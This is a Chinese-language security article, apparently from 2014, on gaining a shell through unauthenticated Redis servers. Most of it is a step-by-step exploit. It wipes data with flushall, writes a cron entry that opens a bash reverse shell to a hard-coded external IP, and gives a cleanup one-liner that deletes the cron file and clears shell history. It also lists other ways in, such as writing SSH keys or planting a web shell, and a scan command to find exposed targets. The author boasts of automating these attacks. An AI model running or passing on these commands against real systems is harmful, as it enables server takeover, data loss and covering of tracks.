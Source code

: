 ```yaml
---
description: Redis常见的安全问题及利用方式，可以写任意文件并拿到服务器SHELL权限，如何自查Redis匿名访问问题。
---
```

# Redis GET SHELL

Feei <feei#feei.cn> 2014

## 漏洞背景
默认Redis安装完成后只能本机访问且没有密码的，一般场景下Redis是需要被其它服务器访问的，所以就会将`/etc/redis.conf`中的`bind-ip`改为`0.0.0.0`，由此导致外网可以匿名访问Redis（不需要密码）。

外网可以访问导致的问题是Redis数据外泄，除此之外若使用root账户启动的Redis则会造成GET SHELL。

## 利用方式
通过Redis的`config`命令，可以写入任意文件，权限足够的情况下可写入定时任务反弹得到SHELL。

**连上一台Redis**
```bash
redis-cli -h your_redis_server
```

**保持写入的干净，清除原有数据（如果是其它人机器，不建议这么做）**
```bash
flushall
```

**设置key(0)为bash反弹shell的脚本，每分钟执行一次，在自己服务器上监听7890端口(nc -vvl 7890)**
```bash
set 0 "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/103.21.140.84/7890 0>&1\n\n"
```

**设置保存的位置**
```bash
config set dir /var/spool/cron/ 
```

**设置保存的文件名**
```bash
config set dbfilename root
```

**保存**
```bash
save
```

至此就会在目标Redis服务器产生一个Cron文件`/var/spool/cron/root`，如果目标服务器Crond服务没有关闭的话，该文件就会每分钟执行一次导致SHELL，此时只需要在自己的服务器上监听7890端口，即可控制目标服务器。

退出目标服务器时，为了防止Cron再次连接，可以用如下命令退出

```bash
ps aux | grep 7890 | awk '{ print $2 }'|xargs kill;rm -f /var/spool/cron/root;history -c && exit
```

## 利用姿势

除了可以直接写定时任务拿到SHELL，还可以有多种姿势。

- 写cron反弹一个shell
- 写`~/.ssh/authorized_keys`，使用密钥直接登录
- 找到web目录的绝对路径，直接写web shell
- 写初始化脚本`/etc/profile.d/`
- 主从模式利用

## 漏洞自测
通过nmap扫描内网网段的redis匿名访问服务。（当然可以扫描外网）
```bash
nmap -p6379 10.11.0/16 --script redis-info
```
就是这个洞让我wooyun排名10天前进10页，当然是加到我的扫描器内（Vulture），自动化利用，每天就看下报告即可。
